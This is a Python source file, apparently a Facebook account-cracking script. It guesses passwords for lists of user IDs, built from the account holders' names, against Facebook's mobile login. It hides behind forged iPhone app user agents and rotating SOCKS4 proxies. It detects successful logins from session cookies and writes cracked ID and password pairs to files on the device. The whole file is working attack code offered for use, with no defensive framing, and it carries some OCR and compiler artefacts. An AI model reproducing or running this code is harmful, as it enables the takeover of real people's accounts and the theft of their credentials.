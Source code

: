     ipsw = '19'+random.choice(abv)+str(random.randint(11,99))
application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(1,19))+'.'+str(random.randint(111,555))
application_version_code=str(random.randint(000000000,999999999))
ua_ios = 'Mozilla/5.0 (iPhone, CPU iPhone '+version+'_'+osv+' like Mac OS '+version+') AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/'+ipsw+' [FBAN/FBIOS;FBAV/'+application_version+';FBBV/'+application_version_code+';FBDV/'+version+'.'+osv+';FBMD/iPhone;FBSN/iOS;FBSV/'+version+'.'+osv+';FBSS/2;FBCR/Reliance JIO;FBID/phone;FBLC/en_US;FBOP/5;FBIA/FBIOS;]'
def ffb(ids,names,passlist):
	global loop,oks,cps
	sys.stdout.write(f'\r\x1b[1;97m[\033[1;97mRuman king-ðŸ‘‘-\033[1;97m] %s|\x1b[1;92mOK:-%s \x1b[1;97m\r'%(loop,len(oks))),
    
	session = requests.Session()
	try:
		first = names.split(' ')[0]
		try:
			last = names.split(' ')[1]
		except:
			last = 'Khan'
		ps = first.lower()
		ps2 = last.lower()
		for fikr in passlist:
			pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
			ua = random.choice(ugen)
			ua1 = random.choice(ugen2)
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			
			head = {'Host': 'p.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="24", "Chromium";v="107", "Google Chrome";v="107"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Andriod"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?0', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-PK,en-US,en;q=0.9,en;q=0.8,en;q=0.7'}
			getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
			idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
			complete = session.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head,proxies=proxs)
			AXI=session.cookies.get_dict().keys()
			if "c_user" in AXI:
				coki=session.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
				print('\033[1;92m[Ruman king-ðŸ‘‘--OK] '+ids+' | '+pas+'\033[1;32m')
				open('/sdcard/Ruman king-ðŸ‘‘--OK.txt', 'a').write(ids+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'checkpoint' in AXI:
				if 'y' in pcp:
					print('\33[1;91m[Ruman king-ðŸ‘‘--CP] '+ids+' | '+pas+'\33[0;97m')
					open('/sdcard/Ruman king-ðŸ‘‘--CP.txt', 'a').write(ids+'|'+pas+'\n')
					cps.append(ids)
					break
				else:
					break
			else:
				continue
	except requests.exceptions.ConnectionError:
		time.sleep(20)